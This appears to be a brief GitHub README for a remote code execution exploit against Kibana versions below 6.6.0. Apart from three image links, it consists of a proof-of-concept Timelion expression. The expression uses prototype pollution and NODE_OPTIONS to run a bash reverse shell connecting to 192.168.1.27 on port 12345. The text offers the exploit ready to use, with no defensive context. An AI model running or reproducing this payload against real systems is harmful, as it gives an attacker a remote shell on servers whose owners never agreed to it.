



# kibana-RCE <6.6.0

POC：

.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.1.27/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

